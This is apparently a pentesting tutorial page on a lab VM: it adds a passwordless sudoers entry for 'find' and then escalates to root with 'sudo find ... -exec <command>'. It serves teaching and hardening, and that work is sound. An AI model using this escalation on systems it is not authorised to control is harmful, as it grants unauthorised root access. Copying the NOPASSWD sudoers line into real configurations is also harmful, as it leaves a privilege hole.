 ```yaml
---
title: SUDO Permissions
layout: default
parent: Linux Misconfigurations
grand_parent: Pentesting
nav_order: 1
---
```


# Misconfigured SUDO Permissions

## Introduction

'sudo' is a fundamental Linux binary that grants users the ability to execute commands with the elevated privileges of the root user. The configuration for 'sudo' is maintained in the /etc/sudoers file, where specific permissions are defined, dictating which commands a user is authorized to run with root privileges.

Typically, when a user employs 'sudo' to execute a command, they are prompted to provide their password as a security measure. However, system administrators have the flexibility to customize the behavior through the /etc/sudoers file. This file may be configured to allow a user to run specific binaries with root privileges without the need for a password prompt.

## Step-by-Step Guide

### **Setup**

#### 1. Create a user that should not be a sudo group user

```bash
user@user-vm:~$ sudo adduser notroot
```
![Add 'notroot' user](add_notroot_user.png)

#### 2. Modify the /etc/sudoers file to allow the created user to execute 'find' command using 'sudo', without being prompted for the password 

Run visudo to edit the */etc/sudoers* file:

```bash
user@user-vm:~$ sudo visudo
```

On the sudoers file, add line:
```bash
# <chosen_user> ALL=(root) NOPASSWD: <sample_binary>
notroot ALL=(root) NOPASSWD: /usr/bin/find
```
![Add 'notroot' user to sudoers for find command](add_notroot_sudo_permission.png)


Above command allows 'notroot' user to use 'find' as root without password prompt.

### **Exploitation**

#### 1. Switch or Login as 'notroot'

```bash
notroot@user-vm:~$ 
```

#### 2. Verify the commands the user can run with SUDO

```bash
notroot@user-vm:~$ sudo -l
```
![Verify the user's sudo commands](verify_user_sudo_commands.png)

Above result shows 'root' permission to run '/usr/bin/find' without password.

#### 3. Exploit: Execute any command within 'sudo find' command

```bash
notroot@user-vm:~$ touch <file_name>
notroot@user-vm:~$ sudo find <file_name> -exec <command> \;
```
Commands run using find would be elevated to root, without asking password.

![Execute any command](execute_any_command.png)


## Video Demonstration

[<img src="https://img.youtube.com/vi/F6aMPdU597g/hqdefault.jpg"
/>](https://www.youtube.com/embed/F6aMPdU597g)


## Reference
https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/


